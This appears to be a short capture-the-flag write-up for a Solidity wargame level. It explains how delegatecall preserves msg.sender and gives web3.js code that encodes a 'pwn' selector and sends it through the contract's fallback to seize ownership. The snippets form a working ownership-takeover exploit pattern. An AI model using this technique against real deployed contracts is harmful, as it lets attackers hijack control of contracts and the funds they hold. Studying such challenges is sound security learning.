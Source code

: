 # Task: Taks ownership of the Delegate Contract

Delegatecall means using the implementation of another contract at runtime. In respose the state variables of the caller contract are updated. During use of delegatecall msg.value, msg.sender and msg.data remain same. They do not change.
In order to take the ownership of the contract we have to pass a malicious msg.data.

```bash
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});
```

After creating the malicious msg.data then sendTransaction to the calling contract. Fallback will forward the call the the victim contract and updated the ownership

```bash
await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: payload
});
```
